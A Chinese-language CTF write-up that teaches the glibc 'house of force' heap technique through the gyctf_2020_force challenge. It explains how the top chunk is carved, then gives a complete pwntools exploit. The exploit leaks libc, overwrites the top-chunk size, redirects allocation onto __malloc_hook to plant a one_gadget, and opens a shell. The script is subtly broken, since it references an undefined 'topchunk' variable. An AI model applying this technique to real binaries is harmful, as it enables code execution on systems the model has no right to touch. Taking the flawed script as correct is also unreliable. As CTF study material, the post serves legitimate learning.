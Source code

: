 ```yaml
---
title: 一道题学习hoouse of force
date: 2020-05-9 23:49:56
tags:
---
```

house of force攻击手段是通过操作top chunk来进行利用的<!--more-->  
top chunk是作为备用的堆空间，当需要申请chunk时，所有bins中的chunk都满足不了所需的size时，就会从top chunk中切割一块chunk出来返回给用户。  
贴上源码  
```cpp  
victim = av->top;
size   = chunksize(victim);
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
{
    remainder_size = size - nb;
    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```  
👴看不懂，也懒得看，直接解释  
首先会检查申请的size，top chunk够不够给，如果够，就会把原先top chunk的head，变成新申请的chunk的head，并且以新申请的size为offset，把top chunk推到新的位置  
house of force就是通过把top chunk推到任意位置，来控制目标内存  
而且通过malloc不同的size，我们既可以把top chunk推到更高的地址，也可以把它送到更低的地址  
我们的利用思路可以简单概括为，将top chunk的size改为-1，然后-1就会被解释为一个大数，然后可以使得所有64位值都能通过验证  
## gyctf_2020_force  
这题就是通过house of force来做  
首先分析下函数  
![](force1.png)
![](force2.png)
只有add一个功能，puts是空壳函数  
程序在申请chunk后，会打印出chunk的地址，那么我们申请一个大块的空间，系统就会用mmap分配，mmap分配的这块区域在libc下方，偏移是固定的，我们就可以算出libc_base  
然后不管申请多大的chunk，都能读入0x50，那这里就存在溢出，我们通过这个溢出，把top chunk的size改为0xffffffffffffffff，那我们就可以申请很大的size了，我们申请一个size为malloc_hook何top chunk之间的偏移的chunk，那么就能将top chunk推到malloc_hook附近  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './gyctf_2020_force' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("node3.buuoj.cn",26629)
elf=ELF(binary)
libc=elf.libc
def add(size,content):
    p.recvuntil("puts")
    p.sendline("1")
    p.recvuntil("size")
    p.sendline(str(size))
    p.recvuntil("content")
    p.send(content)
def exp():
    p.recvuntil("puts")
    p.sendline("1")
    p.recvuntil("size")
    p.sendline(str(2000000))
    p.recvuntil('bin addr ')
    addr = int(p.recv(14),16)
    print hex(addr)
    libc_base = addr + 0x1e8ff0
    log.success("libc_base==>" + hex(libc_base))
    #gdb.attach(p)
    malloc_hook = libc_base + libc.sym['__malloc_hook']
    log.success("malloc_hook==>" + hex(malloc_hook))
    realloc = libc_base + libc.sym['realloc']
    one_gadget = libc_base + 0x4526a
    p.recvuntil("content")
    p.send("a")
    payload = p64(0)*5 + p64(0xffffffffffffffff)
    p.recvuntil("puts")
    p.sendline("1")
    p.recvuntil("size")
    p.sendline(str(0x20))
    p.recvuntil('bin addr ')
    heap_base = int(p.recv(14),16) - 0x10 + 0x30 #加上0x30就到了top chunk的位置
    print "heap_base:" + hex(heap_base)
    p.send(payload)
    size = (malloc_hook -0x20) - (topchunk+0x10) #需要realloc调整栈帧，所以申请malloc_hook-0x20
    print size
    gdb.attach(p)
    add(size,"aa")
    pause()
    add(0x20,'a'*8+p64(one_gadget)+p64(realloc+16))
    p.recvuntil("puts")
    p.sendline("1")
    p.recvuntil("size")
    p.sendline(str(0x10))
    #gdb.attach(p)
    p.interactive()
exp()
```  
参考链接:   
https://bbs.pediy.com/thread-222924.htm  
https://www.anquanke.com/post/id/175630  